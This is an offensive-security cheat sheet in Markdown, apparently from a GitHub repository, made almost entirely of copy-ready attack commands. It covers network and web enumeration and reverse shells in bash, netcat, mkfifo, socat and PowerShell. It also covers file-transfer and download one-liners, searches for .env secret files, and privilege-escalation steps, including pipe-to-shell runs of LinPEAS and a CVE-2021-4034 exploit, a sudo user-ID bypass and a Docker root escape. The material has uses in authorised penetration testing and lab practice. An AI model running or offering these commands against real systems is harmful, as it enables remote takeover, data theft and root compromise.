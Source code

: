# CHEATSHEET<br /><br />


## NETWORK ENUMERATION<br />

### HOST DISCOVERY
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```
<br />
### TCP OPEN PORTS
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```
<br />
### INFO & VERSION
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```
<br />
### HTTP ENUMERATION
Enumerate common directories and files with nmap
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```
Gobuster
```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```
<br /><br /><br />


## REVERSE SHELLS
<br />
### BASH
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
<br />
### NETCAT
```bash
nc -e /bin/bash <IP> <PORT>
```
<br />
### MKFIFO
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```
<br />
### SOCAT
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```
<br />
### POWERSHELL
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
<br />
### INTERACTIVE TTY
```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```
<br />
<br />
<br />
## SHARE AND DOWNLOAD
<br />
### HTTP SERVER
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```
<br />
### SMB 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```
<br />
### FILE TRANSFER ( NETCAT - BASH ) 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```
<br />
### DOWNLOAD 
#### Powershell
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```
<br />
####Cmd
```shell
certutil -urlcache -split -f <URL> <PATH>
```
<br />
#### Bash
```bash
wget "http://<IP>/"
```
<br />
<br />
<br />
## SYSTEM ENUMERATION
<br />
### Enviroment Variables
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```
<br />
### Find SUID on GUID files
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```
<br />
### Check capabilities
```bash
getcap -r / 2>/dev/null
```
<br />
### Open local ports
```bash
ss -nltp
```
<br />
### Cron Jobs
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```
<br />
### Monitoring processes
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```
<br />
### Scripts with write permissions
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```
<br />
### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
<br />
<br />
<br />
## PRIVILEGE ESCALATION
<br />
### Sudo
```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```
<br />
### Polkit - (CVE-2021-4034)
```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
<br />
### Docker
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```
<br />
